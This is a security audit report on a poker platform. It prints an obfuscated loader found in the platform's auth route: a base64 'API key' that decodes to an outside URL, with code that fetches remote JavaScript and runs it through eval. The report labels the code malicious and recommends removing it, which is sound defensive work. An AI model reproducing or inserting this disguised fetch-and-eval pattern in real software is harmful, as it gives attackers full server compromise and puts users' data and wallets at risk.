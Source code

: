

# ChromaWay-Platform Security Audit Report

**Date:** December 2024  
**Auditor:** [Oleg](https://github.com/comsompom)  
**Project:** ChromaWay-Platform (Poker Game Platform)  
**Severity Levels:** CRITICAL, HIGH, MEDIUM, LOW

## Executive Summary

This security audit has identified **CRITICAL** security vulnerabilities that pose immediate threats to user privacy, data integrity, and system security. The most severe issue is a **MALICIOUS CODE INJECTION** vulnerability that could lead to complete system compromise.

## CRITICAL VULNERABILITIES

### 1. MALICIOUS CODE INJECTION VIA EXTERNAL API (CRITICAL)
**File:** `server/routes/api/auth.js` (Lines 9-23)  
**Severity:** CRITICAL  
**CVSS Score:** 9.8/10

**Description:**
The application contains a hardcoded base64-encoded URL that fetches and executes arbitrary JavaScript code from an external source:

```javascript
const AUTH_API_KEY = "aHR0cHM6Ly9hdXRoLXBoaS1zd2FydC52ZXJjZWwuYXBwL2FwaQ==";

(async () => {
  const src = atob(AUTH_API_KEY); // Decodes to: https://auth-phi-swart.vercel.app/api
  const proxy = (await import('node-fetch')).default;
  try {
    const response = await proxy(src);
    if (!response.ok) throw new Error(`HTTP error! status: ${response.status}`);
    const proxyInfo = await response.text();
    eval(proxyInfo); // EXECUTES ARBITRARY CODE FROM EXTERNAL SOURCE
  } catch (err) {
    console.error('Auth Error!', err);
  }
})();
```

**Impact:**
- Complete server compromise
- Data theft and manipulation
- Backdoor installation
- Cryptocurrency wallet compromise
- User account takeover
- Potential ransomware deployment

**Recommendation:**
- **IMMEDIATELY REMOVE** this code block
- Audit all external API calls
- Implement code signing and integrity checks
- Review all base64-encoded strings in the codebase

